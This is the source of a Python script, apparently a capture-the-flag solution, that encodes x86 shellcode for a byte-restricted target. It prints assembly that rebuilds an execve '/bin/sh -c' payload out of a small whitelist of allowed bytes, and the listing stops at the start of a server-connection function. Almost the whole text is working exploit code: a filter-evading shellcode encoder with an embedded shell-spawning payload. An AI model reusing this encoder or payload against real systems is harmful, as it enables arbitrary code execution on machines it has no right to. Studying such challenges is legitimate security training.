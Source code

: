 ```python
#!/usr/bin/env python3

import sys
import random
import subprocess
import socket
import time

def random_shellcode():

	whitelist_bytes = b'\x00\x0a\x20\x27\x28\x29\x2a\x2d\x2f\x3a\x3c\x3d\x3e\x40\x4b\x4f\x56\x5b\x5c\x5d\x5e\x5f\x60\x6f\x7b\x7c\x7d\x7e'
	whitelist_arr = list(whitelist_bytes)

	arr = [random.choice(whitelist_arr) for i in range(1000000)]

	with open('shellcode_random','wb') as f:
		f.write(bytes(arr))
		f.close()
	subprocess.Popen(['ndisasm','-b','32','shellcode_random']).wait()

def real_shellcode():

	# allocated space is 0x100000

	# eax == shellcode, want eax + 0x100000-40ish
	print('BITS 32')
	print('sub eax,0x4b3e4040')
	print('sub eax,0x403d4040')
	print('sub eax,0x3a3a4040')
	print('sub eax,0x3a3a4040')
	# eax = eax + 0xfff00

	print('pushad')
	print('pop ebx') # edi
	# ebx == 0

	buf  = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f"
	buf += b"\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08"
	buf += b"\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53"
	buf += b"\x89\xe1\xcd\x80"

	ebx = 0
	for ch in buf:
		n = (ebx-ch) % 256
		for i in range(n):
			print('dec ebx')
		ebx = ebx - n
		#print('add [eax+0x0],bl')
		print('db 0x00,0x5C,0x20,0x00')
		print('inc eax')

	for i in range(0xfff00-0x0000186D):
		print('inc eax')

	for i in range(0x40):
		print('db 0x00')
	print('db 0xff')

	#print("db 'id', 0x0a")

def connect_to_server():
	s = socket.socket()
```